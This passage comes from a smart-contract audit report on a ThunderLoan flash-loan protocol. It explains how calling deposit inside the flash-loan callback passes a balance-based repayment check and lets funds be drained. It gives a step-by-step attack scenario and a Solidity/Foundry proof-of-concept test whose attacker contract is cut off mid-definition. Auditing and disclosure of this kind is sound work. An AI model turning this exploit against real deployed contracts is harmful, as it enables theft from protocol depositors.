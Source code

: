 This *push-style* validation is insecure because it assumes any balance increase constitutes a valid repayment. The system lacks re-entrancy protection, which enables the balance snapshot to be bypassed. An attacker can call the `deposit` function from within the flash loan's `executeOperation` callback. This deposit satisfies the flawed balance check, allowing the attacker to effectively convert the flash-loaned funds into a regular deposit and subsequently steal them.

#### Impact

A malicious actor can bypass the flash loan's repayment obligation, convert the borrowed assets into `AssetToken` shares, and then withdraw the underlying collateral, effectively draining funds from the protocol without requiring any collateral.

**Attack Scenario:**

1.  An attacker requests a flash loan from the `ThunderLoan` contract via a malicious contract.
2.  Within the `executeOperation` callback, the attacker's contract does not repay the loan. Instead, it `approve`s the `ThunderLoan` contract to spend the borrowed tokens and calls the `deposit` function with the borrowed amount.
3.  The deposit increases the contract's token balance, satisfying the flawed repayment condition and causing the balance check in `flashloan` to pass.
4.  The attacker receives `AssetToken`s in exchange for the "deposit."
5.  The attacker then calls `redeem` to burn the `AssetToken`s and withdraw the underlying assets originally borrowed, resulting in a net loss equal to the flash-loaned amount.

#### Proof of Concept

The following test demonstrates this vulnerability. The `DepositNotRepay` contract is used to call `deposit` from within the flash loan's `executeOperation`, successfully bypassing repayment and later withdrawing the funds.

```solidity
    function test_audit_depositReplacingRepay()
        public
        setAllowedToken
        hasDeposits
    {
        uint256 amountToBorrow = 100e18;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(
            tokenA,
            amountToBorrow
        );

        // User executes a malicious deposit without repaying the flash loan,
        // draining amountToBorrow from the ThunderLoan contract.
        vm.startPrank(user);
        DepositNotRepay dnr = new DepositNotRepay(thunderLoan);
        tokenA.mint(address(dnr), calculatedFee);
        thunderLoan.flashloan(address(dnr), tokenA, amountToBorrow, "");
        dnr.withdrawDrained(tokenA, user);
        vm.stopPrank();

        assertGe(tokenA.balanceOf(user), amountToBorrow);
    }

contract DepositNotRepay is IFlashLoanReceiver {
    ThunderLoan tl;

    constructor(ThunderLoan _tl) {
        tl = _tl;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address,
```